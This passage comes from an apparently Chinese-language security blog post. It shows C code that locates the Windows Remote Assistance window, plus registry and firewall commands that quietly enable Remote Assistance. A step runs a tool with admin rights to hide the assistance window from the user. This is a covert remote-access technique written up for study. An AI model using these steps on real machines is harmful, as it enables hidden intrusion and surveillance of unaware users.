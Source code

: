 ```
int main()
{
	char *Title = NULL;
	LANGID lid = GetSystemDefaultLangID();
	printf("[*]LanguageID:0x%04x\n",lid);
	switch (lid)
	{
		case 0X0804:
			printf("[*]Language:Chinese\n",lid);
			Title = "Windows 远程协助";
            break;
       case 0x0409:
			printf("[*]Language:Englisth\n",lid);
			Title = "Windows Remote Assistance";
            break;
    }     
	HWND hwnd = FindWindow(NULL, Title);
	if(hwnd)
	{
		printf("[+]Find Window\n");     
		EnumChildWindows(hwnd, EnumMainWindow, 0);
	}
	else
	{
		printf("[!]No Window\n");  
	}
} 
```

测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-4-4/3-1.png)


## 0x05 完整利用流程
---

### 1、开启远程协助


```
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Remote Assistance" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh advfirewall firewall set rule group="Remote Assistance" new enable=Yes
```

### 2、运行拦截程序msra-hide.exe，隐藏msra窗口

需要管理员权限

### 3、生成远程协助邀请文件
